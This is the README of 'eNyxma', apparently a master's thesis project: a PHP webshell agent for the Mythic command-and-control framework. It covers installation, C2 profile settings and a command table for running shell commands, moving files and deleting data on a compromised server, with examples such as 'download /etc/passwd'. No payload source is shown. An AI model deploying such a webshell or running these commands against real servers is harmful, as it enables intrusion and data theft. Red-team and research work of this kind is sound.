 # eNyxma Mythic Remote Webshell Payload

A lightweight PHP-based webshell payload for Mythic C2, offering a suite of file‑and‑shell commands over HTTP(S). Designed for quick deployment and easy extension.

---

## 📖 Overview

**eNyxma** lets you execute commands, transfer files, and browse remote directories on a compromised server via a Mythic callback.  
Key components:

- **Payload**: `enyxma.php` (PHP script deployed on target)
- **Mythic Plugin**: Python code under `commands/*.py`
- **WebshellRPC**: Handles GET/POST transport, Base64‑encoded JSON I/O, error handling

---

## ⚙️ Prerequisites

- **Target**: PHP ≥ 7.0 with `shell_exec()`, `file_get_contents()`, `scandir()`, `stat()`, etc.
- **Mythic Server**: Python 3.8+, Mythic v2.x
- **Network**: HTTP(S) connectivity between Mythic server and the payload URL

---

## 🚀 Installation

1. **Install the agent**  
   Install the agent on your Mythic instance:
   ```bash
   ./mythic-cli install github https://github.com/Termindiego25/enyxma
   ```
2. **Create a callback**
   Go to `Payloads > Actions > Generate a new payload` and configure the parameters, including enyxma_c2p C2 profile.
3. **Deploy** the generated payload on the target.
4. **Run Commands**:
   ```shell
   # Example commands
   checkin
   shell whoami
   list /var/www/html
   download /etc/passwd
   upload
   exit
   ```

---

## ⚙️ Configuration

The available C2 Profile parameters in the Mythic UI are the following:

| Parameter         | Description                                                                        | Example                           |
| ----------------- | ---------------------------------------------------------------------------------- | --------------------------------- |
| **request_type**  | Choose the request method to use for communication with the webshell (GET or POST) | `POST`                            |
| **cookie_name**   | Cookie name for authentication to webshell                                         | `session`                         |
| **query_param**   | Query parameter for paayload requests                                              | `id`                              |
| **URL**           | Full URL to the payload on the target                                              | `https:/example.com/enyxma.php`   |
| **user_agent**    | HTTP User‑Agent header                                                             | `Mozilla/5.0 (Windows NT 10.0…)`  |

---

## 📚 Supported Commands

| Command      | Description                                                                                                | Usage                                  |
|--------------|------------------------------------------------------------------------------------------------------------|----------------------------------------|
| **append**   | Append data to a file on the remote webshell.<br>⚠️ Intended for small payloads (a few KB).                | `append [<remote_path> <file_id>]`     |
| **checkin**  | Gather system information (IP, OS, user, host, domain, PID, arch).                                         | `checkin`                              |
| **create**   | Create a new, empty file at the specified path on the remote system.                                       | `create <file_path>`                   |
| **delete**   | Delete a file at the specified path on the remote system.                                                  | `delete <file_path>`                   |
| **download** | Download a file from the remote system to the Mythic server using the webshell’s native functions.         | `download <file_path>`                 |
| **exit**     | Terminate the remote webshell session and remove the callback from Mythic.                                 | `exit`                                 |
| **list**     | List files and directories at the given path on the remote system (defaults to CWD).                       | `list [directory_path]`                |
| **mkdir**    | Create a new directory at the specified path on the remote system.                                         | `mkdir <directory_path>`               |
| **pwd**      | Display the current working directory on the remote system.                                                | `pwd`                                  |
| **read**     | Read and return the contents of a file on the remote system.                                               | `read <file_path>`                     |
| **rmdir**    | Delete a directory and all its contents at the specified path on the remote system.                        | `rmdir <directory_path>`               |
| **shell**    | Execute arbitrary shell commands on the remote webshell.                                                   | `shell <command> [arguments]`          |
| **upload**   | Upload a local file to the remote webshell.<br>⚠️ Intended for small files (up to a few KB).               | `upload [<remote_path> <file_id>]`     |
| **whoami**   | Show the username under which the agent is running on the remote system.                                   | `whoami`                               |
| **write**    | Overwrite a file on the remote webshell with provided text.<br>⚠️ Intended for small payloads (a few KB).  | `write [<file_path> <text>]`           |

---

## 🐞 Debugging & Logging

- **Mythic Container Logs**: `$ docker logs enyxma`  
- **Python Plugin**: configure `LOG_LEVEL=DEBUG` in your Mythic environment  
- **Payload PHP**: errors returned as HTTP 204 or JSON `{"error":"..."}`  

---

## 🧩 Extending & Development

1. **Add a new command**:  
   - Create `agent_functions/commands/<cmd>.py` with `TaskArguments`, `create_go_tasking()`, `process_response()`.  
   - Update `agent_code/enyxma.php` with corresponding `process_<cmd>()` function and add it to the switch-case.  
   - Add MITRE mapping and browser_script if UI integration is desired.
2. **Test locally** with `pytest` or by curling your local PHP server.

---

## 🤝 Contributing

1. Fork this repo  
2. Create a feature branch  
3. Write tests and documentation  
4. Submit a PR  

Please follow **PEP8** and comment in **English**.

---

## 📜 License

Distributed under the **GPL-3.0 license**. See [LICENSE](LICENSE) for details. 

---

## 👨‍💻 Author

Developed by **[Termindiego25](https://www.diegosr.es)** as part of the **Master’s Thesis** of my **Master's Degree in Cybersecurity and Cyberintelligence**.
